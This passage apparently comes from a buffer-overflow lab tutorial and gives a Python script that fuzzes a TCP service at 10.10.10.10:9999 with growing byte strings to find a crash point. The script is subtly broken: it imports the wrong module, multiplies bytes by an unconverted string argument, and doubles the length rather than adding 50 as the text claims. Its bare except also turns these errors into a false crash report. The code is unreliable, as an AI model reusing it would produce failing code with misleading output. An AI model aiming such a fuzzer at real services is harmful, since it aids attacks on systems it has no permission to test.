 You gotta find the point the program crash, which you can use python.

```python
import sock
import sys
from time import sleep

ip, port = "10.10.10.10", 9999
fuzzer = sys.argv[1]
prefix = b"" # change this if necessary and make sure theres a space at the end.

while True:
	try:
		s = socket.socket()
		s.connect((ip, port))
		s.send(prefix + b"A"*fuzzer)
		sleep(1)
		fuzzer = fuzzer+fuzzer
	except:
		print(f"Crashed at {fuzzer} bytes")
		sys.exit()
```

Run this with 
Ex. `python3 fuzzer.py 50`
This will fuzz the port with 50 bytes then 100 then 150 etc.
